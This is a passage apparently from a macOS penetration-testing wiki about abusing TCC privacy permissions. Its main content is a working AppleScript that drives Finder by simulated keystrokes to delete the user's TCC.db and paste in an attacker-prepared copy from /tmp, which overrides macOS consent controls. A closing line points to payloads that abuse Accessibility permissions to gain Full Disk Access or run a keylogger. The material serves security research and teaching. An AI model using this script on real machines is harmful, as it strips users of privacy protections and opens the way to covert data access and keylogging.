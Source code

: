 Finder overwriting users TCC.db example:

```applescript
-- store the TCC.db file to copy in /tmp
osascript <<EOF
tell application "System Events"
    -- Open Finder
    tell application "Finder" to activate

    -- Open the /tmp directory
    keystroke "g" using {command down, shift down}
    delay 1
    keystroke "/tmp"
    delay 1
    keystroke return
    delay 1

    -- Select and copy the file
    keystroke "TCC.db"
    delay 1
    keystroke "c" using {command down}
    delay 1

    -- Resolve $HOME environment variable
    set homePath to system attribute "HOME"

    -- Navigate to the Desktop directory under $HOME
    keystroke "g" using {command down, shift down}
    delay 1
    keystroke homePath & "/Library/Application Support/com.apple.TCC"
    delay 1
    keystroke return
    delay 1

    -- Check if the file exists in the destination and delete if it does (need to send keystorke code: https://macbiblioblog.blogspot.com/2014/12/key-codes-for-function-and-special-keys.html)
    keystroke "TCC.db"
    delay 1
    keystroke return
    delay 1
    key code 51 using {command down}
    delay 1

    -- Paste the file
    keystroke "v" using {command down}
end tell
EOF
```

### `kTCCServiceAccessibility` to FDA\*

Check this page for some [**payloads to abuse the Accessibility permissions**](macos-tcc-payloads.md#accessibility) to privesc to FDA\* or run a keylogger for example.
